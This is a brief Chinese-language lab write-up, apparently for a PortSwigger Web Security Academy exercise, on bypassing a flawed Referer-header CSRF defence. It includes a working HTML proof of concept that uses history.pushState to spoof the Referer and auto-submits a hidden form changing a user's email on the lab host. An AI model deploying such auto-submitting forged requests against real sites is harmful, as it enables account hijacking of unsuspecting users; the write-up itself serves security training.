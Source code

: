 程序根据referer头来阻止csrf攻击

但是referer验证存在缺陷，容易绕过

例如：

只要存在主域，就可以绕过

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/portswigger-labs/csrf/images/0920CBDDB3624FBB9BEC0F21D34EE30Cclipboard.png)

此时可以使用javascript代码来自动为referer头添加内容

```javascript
history.pushState("", "", "/?$original-domain")
```



poc:

```javascript
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://accf1f1f1fb71fc080d12eea00f00062.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="14062&#64;qq&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
    //自动为referer添加/?accf1f1f1fb71fc080d12eea00f00062.web-security-academy.net
history.pushState("", "", "/?accf1f1f1fb71fc080d12eea00f00062.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>

```

